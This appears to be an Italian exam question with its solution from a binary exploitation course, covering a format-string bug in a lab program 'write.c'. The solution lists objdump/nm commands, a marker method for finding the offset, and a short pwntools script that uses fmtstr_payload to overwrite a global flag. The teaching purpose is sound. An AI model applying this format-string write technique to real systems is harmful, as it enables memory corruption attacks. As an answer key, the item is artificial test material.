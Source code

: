 \question[7]
In \lstinline|write.c| (es.\ 02) c'è una globale \lstinline|int flag = 0| mai riassegnata; \lstinline|main| stampa il messaggio di successo solo se \lstinline|flag != 0|. L'unica \lstinline|printf(buf)| vulnerabile è in \lstinline|vulnerable()|.
(a) Perché l'indirizzo di \lstinline|flag| è stabile e noto a priori? (b) Con quali comandi lo trovi e come determini l'offset? (c) Scrivi l'exploit pwntools che rende \lstinline|flag = 1|.
\begin{solution}
(a) Il binario è compilato \lstinline|-no-pie|: indirizzi assoluti e stabili. \lstinline|flag| è una globale in \lstinline|.bss|, quindi ha un indirizzo noto a priori; non serve un leak preliminare (con PIE+ASLR invece servirebbe).\\
(b) Indirizzo: \lstinline!objdump -t ./write | grep ' flag$'! (oppure \lstinline!nm ./write | grep ' flag$'!), es.\ \lstinline|0804c030|. Offset: metodo del marcatore, \lstinline|echo -n 'AAAA.%7$x'| finché si rivede \lstinline|41414141| (offset $=7$).\\
(c) \lstinline|fmtstr_payload| costruisce il payload \lstinline|%n| corretto (arch-aware):
\begin{lstlisting}[style=py]
from pwn import *
e = ELF('/home/student/bin/i386/write')
offset = 7                       # dal marcatore
p = fmtstr_payload(offset, {e.symbols['flag']: 1})
io = process(e.path); io.sendline(p)
print(io.recvall().decode())     # -> Congratulazioni! flag = 1...
\end{lstlisting}
\lstinline|ELF()| legge l'indirizzo di \lstinline|flag| dal binario; \lstinline|{flag: 1}| chiede di scrivervi 1. Stesso script per x64/arm64.
\end{solution}
